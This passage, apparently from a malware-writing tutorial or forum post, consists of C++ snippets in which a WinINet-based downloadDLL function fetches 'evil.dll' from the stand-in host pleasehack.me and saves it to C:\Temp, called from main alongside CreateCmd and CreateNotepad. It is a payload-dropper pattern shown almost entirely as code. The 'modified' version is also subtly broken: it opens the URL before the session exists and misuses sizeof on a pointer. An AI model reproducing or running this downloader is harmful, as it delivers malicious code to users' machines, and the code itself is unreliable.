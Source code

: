 ```cpp
        InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
        WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
        delete[] buffer;
        buffer = NULL;
    } while (dwBytesRead);

    CloseHandle(hFile);
    InternetCloseHandle(hHttpFile);
    InternetCloseHandle(hSession);
    return 0;
}
```

Please check the function call order and how main function is calling them too:

```cpp
int main() {
    CreateCmd();
    CreateNotepad();
    downloadDLL();
    return 0;
}
```

Now, let's examine what happens if we make these minor modifications to the code?

```cpp
int downloadDLL() {
    HINTERNET hSession = NULL;
    DWORD dwFileSize = 1024;
    char* buffer = new char[dwFileSize + 1];
    DWORD dwBytesRead;
    DWORD dwBytesWritten;
    HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://pleasehack.me/evil.dll", 0, 0, 0, 0);
    hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    do {
        buffer = new char[dwFileSize + 1];
        ZeroMemory(buffer, sizeof(buffer));
        InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
        WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
        delete[] buffer;
        buffer = NULL;
    } while (dwBytesRead);

    CloseHandle(hFile);
    InternetCloseHandle(hHttpFile);
    InternetCloseHandle(hSession);
    return 0;
}

int CreateCmd() {
    //...
}

int CreateNotepad() {
    //...
}

int main() {
    CreateCmd();
    CreateNotepad();
    downloadDLL();
```